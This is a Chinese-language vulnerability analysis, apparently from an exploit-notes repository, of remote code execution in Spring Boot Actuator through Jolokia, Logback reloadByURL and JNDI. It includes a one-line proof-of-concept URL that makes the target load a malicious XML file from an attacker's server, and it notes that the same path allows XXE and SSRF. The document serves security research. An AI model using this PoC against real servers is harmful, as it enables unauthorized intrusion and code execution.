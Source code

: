 # Spring Boot Actuator rce via jolokia

### 一、漏洞简介

Spring boot 会把/!解析成/，所以我们只要大家能一个相同的环境并且部署恶意脚本，让被攻击服务器访问就会触发漏洞。

### 二、漏洞影响

Spring Boot 2.x

### 三、复现过程

触发流程

Spring-boot-actuator->Jolokia->Logback->JNDI->Rce

Poc:


```bash
http://url:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/自己的网站:对应的端口!/恶意文件.xml
```

**漏洞分析**

可以在 JolokiaMvcEndpoint 类中先看看 jolokia 是如何注册的，如下

![](images/15893405583758.png)


只要是 /jolokia 为第一个 path 节点的，都会进入它的执行逻辑中，可以一直跟进到org.jolokia.http.HttpRequestHandler#handleGetRequest 里

![](images/15893405653771.png)


在上图红框流程中，先对 path 做 / 切割分组，不过可以 1!/2 这样能够保留 / 符号，后边用得到

可以根据 path 节点新建 JmxRequest 对象

大致如下图所示，有这么些类别可以指定

![](images/15893405773710.png)


我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![](images/15893405848871.png)


跟进 initObjectName 函数，如下

![](images/15893405921865.png)


如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![](images/15893405989229.png)


根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![](images/15893406068635.png)


如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 /jolokia/list 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 logback 的依赖包中

简单查看一下它的函数：

![](images/15893406163946.png)


首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![](images/15893406255951.png)


如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。

但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： http:!/!/

跟入 doConfigure 函数

![](images/15893406337377.png)


从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的

跟进函数如下：

![](images/15893406555101.png)


继续跟进上图中的红色方框如下

![](images/15893406619705.png)


如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![](images/15893406687575.png)


很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![](images/15893406755107.png)


什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢

不方，我们查一查 logback insertFormJNDI 标签啥

![](images/15893406987404.png)


其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE啥

参考链接

https://xz.aliyun.com/t/4258